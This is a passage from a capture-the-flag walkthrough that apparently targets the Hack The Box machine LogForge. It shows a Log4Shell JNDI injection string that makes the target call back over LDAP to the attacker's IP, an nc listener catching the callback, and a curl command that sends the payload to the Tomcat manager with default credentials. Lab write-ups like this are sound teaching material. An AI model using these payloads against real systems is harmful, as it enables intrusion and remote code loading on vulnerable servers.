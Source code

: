 ## Exploiting JNDI queries

If you're reading this at some point in the future hopefully things will have died down, but right now log4j and exploiting the bugs in JNDI is all over the internet. A little bit of reading [here](https://docs.oracle.com/javase/jndi/tutorial/getStarted/overview/index.html) and [here](https://thenewstack.io/log4shell-we-are-in-so-much-trouble/) if you need it. There's also a good resource on Reddit [here](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/) which includes example JNDI queries to try when attempting to exploit this vulnerability.

I'll keep it simple to start with and try getting the box to reach out to me over ldap using this query:

```sh
${jndi:ldap://10.10.14.12/pencer}
```

Start nc listening on Kali, then try pasting the above in to the various fields we found on the Tomcat Manager application:

![logforge-tomcat-jndi-test](/assets/images/2022-01-01-12-20-14.png)

After pasting in and pressing the Expire Sessions button, switch to nc on Kali:

```sh
┌──(root💀kali)-[~/htb/logforge]
└─# nc -nlvp 389
listening on [any] 389 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.138] 48504
0
 `�
```

Those characters are proof the server attempted to connect to us on over LDAP on port 389. We can also use curl to do this instead of the browser, similar to how we did it on the box [Dynstr](https://pencer.io/ctf/ctf-htb-dynstr/#api-investigation):

```sh
┌──(root💀kali)-[~]
└─# curl "http://10.10.11.138/pencer/..;/manager/html/expire?path=/" --data-binary "idle=\${jndi:ldap://10.10.14.12/pencer}" -H "Authorization: Basic dG9tY2F0OnRvbWNhdA=="
```

Note that when doing it with curl I've base64 encoded the username and password so it can be passed in the header.
